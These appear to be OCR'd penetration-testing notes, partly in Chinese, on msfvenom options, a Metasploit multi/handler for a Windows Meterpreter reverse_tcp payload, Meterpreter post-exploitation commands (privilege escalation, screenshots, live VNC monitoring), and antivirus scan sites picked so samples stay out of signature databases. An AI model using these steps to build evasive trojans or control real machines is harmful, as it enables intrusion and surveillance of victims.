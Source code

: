 
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
--platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -f, --format          <format>   Output format (use --list formats to list)
    -i, --iterations      <count>    The number of times to encode the payload
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
    --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -x, --template        <path>     Specify a custom executable file to use as a template




msfvenom -l platforms
msfvenom -l encoders
msfvenom -l payloads
msfvenom -l nops
msfvenom -l archs
msfvenom -l encrypt
msfvenom -l formats



use exploit/multi/handler       负责监听的模块
    set payload payload/windows/meterpreter/reverse_tcp
    set LHOST 



免费在线查杀网站 
    virustotal.com
    virscan.org
    nodistribute.com    不会收录特征


windows 用户分类
    1. 普通用户
    1. administrator
    1. system

meterpreter
    getsystem   提权
    getuid      获得用户ID
    getpid      木马程序的pid
    sysinfo
    screenshot  自动保存到/root
    run vnc     实时监控(查看)



evasion 模块 生成木马
